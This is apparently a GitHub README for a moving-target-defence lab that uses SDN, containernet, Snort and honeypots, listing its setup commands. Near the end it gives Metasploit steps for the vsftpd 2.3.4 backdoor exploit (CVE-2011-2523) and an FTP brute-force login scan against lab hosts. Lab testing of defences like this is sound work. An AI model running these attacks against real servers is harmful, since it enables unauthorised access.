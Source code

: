 # MTD-with-SDN
Enable 802.1q  module and ipv4 forwarding on the host
>sysctl -w net.ipv4.ip_forward=1
>
>sudo apt install vlan
>
>modprobe --first-time 8021q

 
Build all the containers with
>sh build_all.sh

Important: create dionaea's folder structures es: honeypots/logs/dionaea/data/[ftp|http|tftp]/root

To pull the container for `containernet` launch
f
>docker pull containernet/containernet

From the project root folder to run the container
>docker run --name containernet -e VM_PATH=$PWD -it --rm --privileged --pid='host' -v /var/run/docker.sock:/var/run/docker.sock -v ./containernet:/containernet/mtd  containernet/containernet /bin/bash

The SDN Python creation files are in the `containernet` folder. Run them using `python3`
Once done, you can run any command on the containers by appending it to the host name. Ex.: `d1 top`.

After creating the network start the controller in a new terminal using

>docker exec -it mn.c0_docker ryu-manager simple_switch_snort.py

To reboot the frr service on a router

>service frr restart

To install Edgeshark requirements

>TEMP_DEB="$(mktemp)" &&
>wget -O "$TEMP_DEB" 'https://github.com/siemens/cshargextcap/releases/download/v0.10.7/cshargextcap_0.10.7_linux_amd64.deb' &&
>sudo dpkg -i "$TEMP_DEB" &&
>rm -f "$TEMP_DEB"

To launch Edgeshark

>wget -q --no-cache -O -   https://github.com/siemens/edgeshark/raw/main/deployments/wget/docker-compose.yaml   | docker compose -f - up

To abuse CVE-2011-2523 on FTP server:

>atk ./msfconsole

>use exploit/unix/ftp/vsftpd_234_backdoor

>set LHOST 10.1.0.2

>set RHOST 10.0.1.2

> run

To run a bruteforce on FTP server:

>use auxiliary/scanner/ftp/ftp_login

>set RHOST 10.0.1.2

>set USERPASS_FILE /bruteforce/userpass.txt

>run

To list active rules on OpenVSwitch
> sh ovs-ofctl dump-flows s1

To kill and remove all containers

>docker ps -aq | xargs docker stop | xargs docker rm
